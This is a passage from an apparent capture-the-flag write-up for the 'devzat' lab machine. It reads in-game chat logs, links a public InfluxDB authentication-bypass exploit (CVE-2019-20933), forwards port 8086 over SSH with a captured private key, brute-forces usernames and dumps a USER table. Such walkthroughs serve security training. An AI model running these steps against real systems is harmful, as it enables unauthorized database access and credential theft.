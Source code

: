 ```
```
We get the following messages ..
```
patrick: Hey Catherine, glad you came.
catherine: Hey bud, what are you up to?
patrick: Remember the cool new feature we talked about the other day?
catherine: Sure
patrick: I implemented it. If you want to check it out you could connect to the local dev instance on port 8443.
catherine: Kinda busy right now 👔
patrick: That's perfectly fine 👍  You'll need a password I gave you last time.
catherine: k
patrick: I left the source for your review in backups.
catherine: Fine. As soon as the boss let me off the leash I will check it out.
patrick: Cool. I am very curious what you think of it. See ya!
devbot: patrick has left the chat

```
We noticed that we have a development program in the port 8443, we keep this information for later, and that we have a password in the backup directory.

Now trying the same with user patrick .
I get the following messages.
```
admin: Hey patrick, you there?
patrick: Sure, shoot boss!
admin: So I setup the influxdb for you as we discussed earlier in business meeting.
patrick: Cool 👍
admin: Be sure to check it out and see if it works for you, will ya?
patrick: Yes, sure. Am on it!
devbot: admin has left the chat

```
Once we read this chat we find out that there is an influxdb configured. Investigating about it and carrying out several tests we finally concluded that it is vulnerable. We get the following github exploit.
[Github Exploit](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933.git)
We download it and install the requirements. Before executing it, we must perform a port redirection to our attacking machine, specifically port 8086, since it is the one used by the database.
```
ssh -i id_rsa_patrick -L 8086:localhost:8086 patrick@devzat.htb
```
Once we run the exploit, with a username wordlist we view 2 databases, i tried I have tried with the 2 and with several tables in the end I have come to the conclusion that the correct ones are the following. We select the database devzat
```
 - using CVE-2019-20933

Host (default: localhost): 
Port (default: 8086): 
Username <OR> path to username file (default: users.txt): 

Bruteforcing usernames ...
[v] admin

Host vulnerable !!!

Databases:

1) devzat
2) _internal
```
Then we can dump all infomation from user table.
```
[admin@127.0.0.1/devzat] $ select * from "USER";
```